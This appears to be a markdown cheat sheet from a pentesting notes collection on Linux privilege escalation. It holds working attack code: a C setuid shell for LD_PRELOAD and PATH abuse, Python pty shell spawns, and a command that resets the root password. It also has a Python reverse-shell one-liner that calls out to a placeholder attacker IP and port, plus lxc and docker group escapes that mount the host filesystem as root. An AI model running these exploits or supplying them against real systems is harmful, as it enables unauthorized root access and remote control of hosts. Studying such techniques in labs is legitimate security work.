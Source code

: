 title: Abusing Paths

# C
Using the below shell code we can create a binary that will pop a shell as the user running it. This is useful if we can abuse programs or `sudo` misconfigurations 

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
}
```

* To build
```
gcc -o exploit shell.c
```

If `gcc` throws an error `/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/9/../../../x86_64-linux-gnu/Scrt1.o: in function _start: (.text+0x24): undefined reference to main'` then we can use the `-nostartfiles` flag

```
gcc -o exploit shell.c -nostartfiles
```

* To build as shared library 
```
gcc -shared -o exploit.so -fPIC  shell.c
```

Once built we can abuse `LD_PRELOAD` and `PATH`

# Python
Again we can use abuse `LD_PRELOAD` and `PATH` to escalate our privileges via python. 


**Interactive**

If we have a application we can abuse in an interactive way then we use `pty` to drop into a shell.

* write access to script
```
import pty;pty.spawn("/bin/bash")
```

* abuse library paths
```python
"""
"""
import pty
pty.spawn("/bin/bash")
exit()
```

**Non Interactive**

If the script is running under `cron`, `systemd` timers or other means then we will need to get creative.

We could use `os.system` to run a system command, for example if the script run's as root.

```python
import os
os.system("echo -n 'r00tr00t\nr00tr00t' | passwd")
```

Or we could use to get a reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP-ADDRESS}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

# lxc / lxd

If the low privileged user is a member of the `lxc` group then we can abuse `lxc` to access the hosts file system.

* Download: [alpine.tgz](alpine.tgz) 
* GitHub: [saghul / lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)
```
lxc image import ./alpine.tgz --alias myimage
lxd init
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

# docker

If the low privileged user is a member of the `docker` group then we can use `docker` to access the hosts file system as `root`

Download: [docker-alpine.tar](docker-alpine.tar)

First we import the image

```
╰─⠠⠵ sudo docker import docker-alpine.tar alpine:ctf  
sha256:f40cb3e62c23d080b5bfd2723165641fcee9036e5d0b80013af365b4fd2e9b76
```

Then we check for the `IMAGE ID`

```
╰─⠠⠵ sudo docker images                             
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              ctf                 f40cb3e62c23        2 seconds ago       5.61MB
```

We then use that `IAMGE ID` in our `docker` command

```
╰─⠠⠵ sudo docker run -v /:/mnt --rm -it f40cb3e62c23 /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # 
```